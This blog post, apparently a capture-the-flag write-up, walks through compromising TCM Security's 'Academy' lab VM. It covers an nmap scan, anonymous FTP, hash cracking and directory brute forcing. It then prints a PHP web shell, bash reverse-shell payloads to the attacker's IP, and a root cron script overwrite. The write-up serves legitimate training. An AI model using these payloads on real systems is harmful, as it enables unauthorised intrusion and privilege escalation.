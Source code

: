 ```yaml
---
title: "Academy Box - PEH Capstone TCM Security"
description: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
summary: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
date: 2024-02-04
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Web", "CTF", "Linux"]
canonicalURL: ""
showToc: false
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: true
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
---
```


------------------------

> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH


Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM.

![image](/images/md/264f4aa5-62fd-47d0-bb51-88a1fe8211e7.webp)

After starting the target VM.

![image](/images/md/48ec1846-d9e4-4f40-a996-91b68db451f8.webp)


Now that we have the target IP `192.168.0.113` let's run the `nmap`.

```bash                                                                                                           
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```


Here we see that port `21,22,80` are open. 

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](/images/md/94033cfd-6173-49d2-bc31-18b3621d137f.webp)

![image](/images/md/8028de5e-668e-4123-8aef-42e27cb07c85.webp)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page.

![image](/images/md/d0094763-f520-4028-a338-0aca0d6cb604.webp)


There is nothing much to see in this default page so let's do the directory brute force.


```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting: 
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/       
                                                                              
Task Completed
```


We found the `/phpmyadmin/` and `/academy/` directories on the `http://192.168.0.113/academy/` page we have one login form.

![image](/images/md/8dcd96ba-f63a-4524-9ea6-95156c8ce0df.webp)


Let's try the login credentials `10201321:student` that we found previously from ftp note.

![image](/images/md/a36b56d4-987e-4e97-834f-f1f0fc105bf4.webp)


It worked we are now logged in. \
On the My Profile page we have file upload functionality.

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server.

![image](/images/md/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969.webp)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com

![image](/images/md/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270.webp)

![image](/images/md/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5.webp)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies 
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie.

![image](/images/md/a6efd8be-7132-4ee9-86b2-b44bcb917ba6.webp)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access.

![image](/images/md/ee82ccab-380c-485d-855c-247e8e2e7dcc.webp)


Reverse shell payload to get shell as root: 

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](/images/md/0c2c4b55-7951-4637-ab07-86077b1ce395.webp)

![image](/images/md/b1a801aa-7b03-4d4d-849a-6a7532c95b22.webp)


Flag:

![image](/images/md/50dbf9b2-9236-4656-95ff-e7747b222a6c.webp)

Happy Hacking
